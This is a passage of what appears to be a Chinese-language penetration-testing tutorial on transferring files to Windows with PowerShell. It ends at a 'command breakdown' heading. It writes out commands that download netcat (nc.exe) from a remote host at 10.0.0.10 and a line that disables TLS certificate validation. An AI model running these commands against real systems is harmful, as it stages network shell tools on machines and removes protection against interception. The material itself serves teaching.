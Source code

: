 
**本文中用到的PowerShell命令**

**Win 7 PowerShell WebClient：**

****

```
`(New-Object System.Net.WebClient).DownloadFile("http://10.0.0.10/nc.exe","nc.exe")`
```

**Win 8及更高版本PowerShell Invoke-WebRequest (wget)：<br>**



```
`wget "http://10.0.0.10/nc.exe" -outfile "nc.exe"`
```

**显示PowerShell版本信息：**

```
`Get-Host`
  `$PSVersionTable.PSVersion`
```

**ServicePointManager $true：<br>**



```
`[System.Net.ServicePointManager]::ServerCertificateValidationCallback = `{`$true`}``
```

**Disable-NetSSLValidation<br>**

Invoke-SelfSignedWebRequest ([第三方工具](https://github.com/0sm0s1z/Invoke-SelfSignedWebRequest))：

```
`Invoke-SelfSignedWebRequest https://www.my.af.mil/ "-outfile index.htm"`
  `wget-ss https://spectruminfosec.com/index.php`
```

由于早期Windows系统中没有直接的文件传输工具，向Windows环境中导入文件一直以来都是一个比较困难的任务。Windows没有自带**netcat**、**wget**、**curl**、**ssh**或者**python**。但是有了PowerShell，这一切都不在话下了。是的，甚至都有**wget**了。

有一件重要的事情需要注意，那就是如今活跃的不同版本的PowerShell之间有很大的差别。一些古老的语言如Perl、Bash甚至Python，大部分的代码库一直保持相当一致。PowerShell自出现以来，经历了Windows操作系统的每次迭代的宏观演进。稍后还会提到这一点。

现在我们将从一个适用于所有版本的PowerShell的Web客户端开始。

**PowerShell WebClient**

```
`(New-Object System.Net.WebClient).DownloadFile("http://10.0.0.10/nc.exe","nc.exe")`
```

[![](https://p4.ssl.qhimg.com/t01d7b72c4e573c3b87.png)](https://p4.ssl.qhimg.com/t01d7b72c4e573c3b87.png)

因为上述命令在任意版本的Powershell中都可用，所以当你编写跨平台的脚本时，这是最佳的选择。



**命令分解**
